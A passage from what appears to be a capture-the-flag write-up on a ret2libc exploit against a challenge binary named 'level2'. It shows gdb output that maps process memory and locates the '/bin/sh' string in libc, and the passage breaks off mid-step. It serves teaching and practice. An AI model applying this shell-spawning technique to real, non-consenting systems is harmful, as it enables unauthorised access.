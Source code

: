 The difference is when the the function `system` is finished, the program will not exit and just crash. Because of the `return` of the `system` function is just a random address.

## 4. Finding the address of the `/bin/sh` string

- We can find the address of the `/bin/sh` string in the `libc` library. We can see all the libraries loaded in the memory with the command `info proc map` :

```sh
(gdb) info proc map
process 2742
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/user/level2/level2
	 0x8049000  0x804a000     0x1000        0x0 /home/user/level2/level2
	 0x804a000  0x806b000    0x21000        0x0 [heap]
	0xb7e2b000 0xb7e2c000     0x1000        0x0
	0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fd2000 0xb7fd5000     0x3000        0x0
	0xb7fd9000 0xb7fdd000     0x4000        0x0
	0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
	0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
	0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
	0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
	0xbffdf000 0xc0000000    0x21000        0x0 [stack]
(gdb)
```

**What do exactly this command ?**

- `info` : Display information about something concerning the program
- `proc`: Displays information about the process in which the program is running
- `map`: A sub-argument of `proc`, it lists the memory address ranges reserved or mapped for different sections of the process, including program code, data, stack, heap, and shared libraries like `libc`

We can see the lib `/lib/i386-linux-gnu/libc-2.15.so` has a big size, we can supposed the string `/bin/sh` is in this library. We find the string with the command `find` in `gdb` :

```sh
(gdb) find 0xb7e2c000, 0xb7fcf000, "/bin/sh"
0xb7f8cc58
1 pattern found.
(gdb)
```

- the `find` command works like -> `find <start-address>, <end-address>, <search-expression>` : it searches for a `string`, a hexadecimal value (`address`) or an integer in memory between two addresses.

- We can ensure the address is correct with the command `x/s` :
